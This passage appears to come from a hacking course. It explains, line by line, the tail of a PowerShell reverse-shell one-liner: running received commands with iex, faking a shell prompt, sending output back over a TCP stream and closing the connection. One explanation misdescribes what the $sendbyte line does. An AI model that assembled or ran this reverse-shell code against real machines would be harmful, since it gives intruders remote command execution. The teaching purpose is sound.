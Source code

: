#### Invoke-Expression


```cmd-session
$sendback = (iex $data 2>&1 | Out-String );
```

Alright, let's break it down in simpler terms:

We're setting up a variable called `$sendback`. We're using a command called `Invoke-Expression`, or `iex` for short, to run whatever's inside the `$data` variable on our own computer.

Now, when we run this command, it might spit out some error messages and regular output. We don't want those to just pop up on the screen, so we're redirecting them through a pipe (`|`) to another command called `Out-String`. This command takes whatever the `Invoke-Expression` gives us and turns it into plain text strings.

The semi-colon (`;`) at the end is just there to make sure all these commands are run one after the other, in order.

#### Show Working Directory


```cmd-session
$sendback2 = $sendback + 'PS ' + (pwd).path + '> ';
```

Alright, let's break it down. We're setting this thing called `$sendback2` to be equal to `$sendback`, then we're adding the string 'PS', followed by the path to where our program is working right now, and finally, we tack on '> ' to make it look like a shell prompt. So, you'll end up with something like "PS C:\workingdirectoryofmachine >". The semi-colon at the end just makes sure everything runs one after the other. And remember, when we use the '+' sign in this context, it's like gluing strings together, unless we're dealing with numbers in languages like C or C++, where we need a special function for that.
#### Sets Sendbyte


```cmd-session
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

Set `$sendbyte` to the ASCII encoded byte stream that'll fire up a TCP client to start a PowerShell session with a Netcat listener on the target box.
#### Terminate TCP Connection


```cmd-session
$client.Close()"
```

Alright, so this `TcpClient.Close` thing is what we'll use when we need to shut down the connection.

----

H3CK TH3 PL4N3T 😈​💀​☠️​

